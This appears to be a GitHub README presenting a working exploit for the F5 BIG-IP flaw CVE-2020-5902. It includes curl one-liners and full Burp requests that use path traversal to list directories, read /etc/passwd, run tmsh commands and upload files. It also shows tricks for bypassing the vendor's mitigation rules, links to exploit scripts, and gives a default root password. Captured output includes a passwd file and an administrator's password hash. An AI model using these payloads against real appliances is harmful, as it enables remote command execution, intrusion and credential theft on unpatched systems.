# CVE-2020-5902 BIG-IP RCE



## Update Use /hsqldb%0a/ Bypass Rules For  Java Deserialization

or `/hsqld%b` > `/hsqldb;`

```
/tmui/login.jsp/..;/hsqldb

<LocationMatch ".*\.\.;.*">
Redirect 404 /
</LocationMatch>

bypass /hsqldb;

<LocationMatch ";">
Redirect 404 /
</LocationMatch>

bypass /hsqldb%0a

include 'FileETag MTime Size
<LocationMatch ";">
Redirect 404 /
</LocationMatch>
<LocationMatch "hsqldb">
Redirect 404 /
</LocationMatch>
'

fix:
https://support.f5.com/csp/article/K52145254
```


## use python for hsqldb




## use java for hsqldb



https://github.com/Critical-Start/Team-Ares/blob/master/CVE-2020-5902/f5RCE.java

[](https://asciinema.org/a/pKUGm3EwgcDHlyWnrhDwPXJTb)

## Use Python









## BIGIP vmware ova



```
╭─root@kali /var/www/html/big_ip 
╰─# md5sum *
ce16d114fc4d04f087e6ebc4cfac89a9  BIGIP-14.1.2.6-0.0.2.ALL-vmware.ova
b57614da7bdacdd76c14546bd910add5  BIGIP-15.1.0-0.0.31.ALL-vmware.ova

#### Console Default Password

https://www.question-defense.com/2011/03/28/f5-big-ip-ltm-ve-default-login-big-ip-local-traffic-manager-virtual-edition-console-login

`root/default` 

```
## poc
https://twitter.com/x4ce/status/1279790599793545216

```
RCE: 
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'

Read File: 
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```

## 0x00 List File

`/tmui/locallb/workspace/directoryList.jsp`

Example:

`directoryPath=/usr/local/www/`



#### BurpSuite Request
```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=65ACC6C79B31335D71E4F432DB39EA50
Connection: close
Upgrade-Insecure-Requests: 1


```

#### BurpSuite Response

```
      {
        "dir": "tmui",
        "children": [
          {
            "dir": "WEB-INF",
            "children": [
              {
                "dir": "classes",
                "children": [
                  {
                    "dir": "org",
                    "children": [
                      {
                        "dir": "apache",
                        "children": [
                          {
                            "dir": "jsp",
                            "children": [
                              {
                                "dir": "common",
                                "children": [
                                  {
                                    "file": "deleteconfirm_jsp.class"
  
                                      ............................
```

## 0x01 Read File 

Example:

`/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd`


#### BurpSuite Requests
```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

#### BurpSuite Response

```
{
  "output": "root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nnobody:x:99:99:Nobody:/:/sbin/nologin\ntmshnobody:x:32765:32765:tmshnobody:/:/sbin/nologin\nadmin:x:0:500:Admin User:/home/admin:/sbin/nologin\nvcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin\ndbus:x:81:81:System message bus:/:/sbin/nologin\npostgres:x:26:26:PostgreSQL Server:/var/local/pgsql/data:/sbin/nologin\nf5_remoteuser:x:499:499:f5 remote user account:/home/f5_remoteuser:/sbin/nologin\noprofile:x:16:16:Special user account to be used by OProfile:/:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\nrpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin\nhsqldb:x:96:96::/var/lib/hsqldb:/sbin/nologin\napache:x:48:48:Apache:/usr/local/www:/sbin/nologin\ntomcat:x:91:91:Apache Tomcat:/usr/share/tomcat:/sbin/nologin\nmysql:x:98:98:MySQL server:/var/lib/mysql:/sbin/nologin\nnamed:x:25:25:Named:/var/named:/bin/false\nqemu:x:107:107:qemu user:/:/sbin/nologin\nsshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin\nsdm:x:498:495:sdmuser:/var/sdm:/bin/false\nntp:x:38:38::/etc/ntp:/sbin/nologin\nsyscheck:x:199:10::/:/sbin/nologin\nrestnoded:x:198:198::/:/sbin/nologin\ntwister5:x:0:500:twister5:/home/twister5:/bin/bash\n"
}
```
#### format
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
tmshnobody:x:32765:32765:tmshnobody:/:/sbin/nologin
admin:x:0:500:Admin User:/home/admin:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
postgres:x:26:26:PostgreSQL Server:/var/local/pgsql/data:/sbin/nologin
f5_remoteuser:x:499:499:f5 remote user account:/home/f5_remoteuser:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin
hsqldb:x:96:96::/var/lib/hsqldb:/sbin/nologin
apache:x:48:48:Apache:/usr/local/www:/sbin/nologin
tomcat:x:91:91:Apache Tomcat:/usr/share/tomcat:/sbin/nologin
mysql:x:98:98:MySQL server:/var/lib/mysql:/sbin/nologin
named:x:25:25:Named:/var/named:/bin/false
qemu:x:107:107:qemu user:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
sdm:x:498:495:sdmuser:/var/sdm:/bin/false
ntp:x:38:38::/etc/ntp:/sbin/nologin
syscheck:x:199:10::/:/sbin/nologin
restnoded:x:198:198::/:/sbin/nologin
twister5:x:0:500:twister5:/home/twister5:/bin/bash
```

## 0x02 RCE (execute arbitrary system commands)

Example:

`/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin`

`list auth user` look all user

`list auth user admin` only look admin user

https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions



```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
{
  "error": "",
  "output": "auth user admin {\n    description \"Admin User\"\n    encrypted-password $6$bEhBobYGG3$zmQ.k2Yw4E3iOAJu1jDIrE.LClSUq6xdLyNTvgDy14FIeDsxdnwAxkxUlpSQ7F60Y3tzKsUAKz.2qRtPLa.dx1\n    partition Common\n    partition-access {\n        all-partitions {\n            role admin\n        }\n    }\n    shell tmsh\n}\n"
}
```
#### format

```
    description "Admin User"
    encrypted-password $6$bEhBobYGG3$zmQ.k2Yw4E3iOAJu1jDIrE.LClSUq6xdLyNTvgDy14FIeDsxdnwAxkxUlpSQ7F60Y3tzKsUAKz.2qRtPLa.dx1
    partition Common
    partition-access {
        all-partitions {
            role admin
        }
    }
    shell tmsh
}
```

#### WorkspaceUtils.runTmshCommand

`JSONObject resultObject = WorkspaceUtils.runTmshCommand(cmd, request);`

`/usr/local/www/tmui/WEB-INF/lib/tmui.jar/com.f5.tmui.locallb.handler.workspace.WorkspaceUtils#runTmshCommand`

```
  public static JSONObject runTmshCommand(String command, HttpServletRequest request) {
    F5Logger logger = (F5Logger)F5Logger.getLogger(WorkspaceUtils.class);
    JSONObject resultObject = new JSONObject();
    String output = "";
    String error = "";
    if (!csrfValidated(request.getHeader("_bufvalue"), request.getHeader("_timenow"), request.getHeader("Tmui-Dubbuf"))) {
      logger.warn("Invalid user token - token provided by user is not authorized");
      resultObject.put("output", output);
      resultObject.put("error", NLSEngine.getString("ilx.workspace.error.InvalidUserToken"));
      return resultObject;
    } 
    if ("POST".equalsIgnoreCase(request.getMethod())) {
      String[] cmdArray = command.split(" ");
      String operation = cmdArray[0];
      String module = cmdArray[2];
      if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
        try {
          String[] args = { command };
          Syscall.Result result = Syscall.callElevated(Syscall.TMSH, args);
          output = result.getOutput();
          error = result.getError();
        } catch (com.f5.tmui.util.Syscall.CallException e) {
          logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + e.getMessage());
          error = e.getMessage();
        } 
      } else {
        error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
      } 
    } else {
      error = NLSEngine.getString("ilx.workspace.error.InvalidMethod");
    } 
    resultObject.put("output", output);
    resultObject.put("error", error);
    return resultObject;
  }
```


## 0x03 Upload File

Example:
`/tmui/locallb/workspace/fileSave.jsp`

POST:
`fileName=/tmp/1.txt&content=CVE-2020-5902`

